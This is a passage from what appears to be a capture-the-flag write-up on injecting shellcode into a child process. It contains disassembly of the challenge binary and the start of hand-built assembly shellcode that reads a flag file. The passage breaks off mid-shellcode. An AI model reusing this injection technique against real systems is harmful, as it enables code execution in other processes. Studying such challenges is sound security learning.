 After writing the shellcode into the child process at `0x401294` it will continue to execute the injected code and print the flag:
```
$ ./poc
Child pid = 292
Hi from child!
CTF{SuchFakeFlag}
```
### Assembling the final Exploit

The only piece left to do is adapting the C code above to the vulnerable service:
Similiarly we can extract the correct address to overwrite in `chal`.
We will choose to overwrite the jump at `0x4022e3` as in the example above:
```objdump

0000000000402232 <check_flag>:
  402232:       55                      push   %rbp
  402233:       48 89 e5                mov    %rsp,%rbp
  ...
  4022d9:       bf 01 00 00 00          mov    $0x1,%edi
  4022de:       e8 fd cf 04 00          callq  44f2e0 <__sleep>
  4022e3:       e9 52 ff ff ff          jmpq   40223a <check_flag+0x8>
```

This finally leads to this shellcode:

```Assembly
# compile with
# as inject.s -o inject.o

.section .text

.globl _start

_start:
    
    # preserve instruction pointer, we will need it later
    pushq %rax

    # write shellcode cat-flag.o on stack
    
    movq $0x000000000000050f, %rdi
    pushq %rdi
    movq $0x0000003cc0c748ff, %rdi
    pushq %rdi
    movq $0x3148050f00000001, %rdi
    pushq %rdi
    movq $0xc0c74800000001c7, %rdi
    pushq %rdi
    movq $0xc748c28948050f00, %rdi
    pushq %rdi
    movq $0x000000c0c7480000, %rdi
    pushq %rdi
    movq $0x0100c2c748c78948, %rdi
    pushq %rdi
    movq $0xfe8948050ff63148, %rdi
    pushq %rdi
    movq $0x00000002c0c748e7, %rdi
    pushq %rdi
    movq $0x89485773752f656d, %rdi
    pushq %rdi
    movq $0x6f682fbf48570067, %rdi
    pushq %rdi
    movq $0x616c662f7265bf48, %rdi
    pushq %rdi
```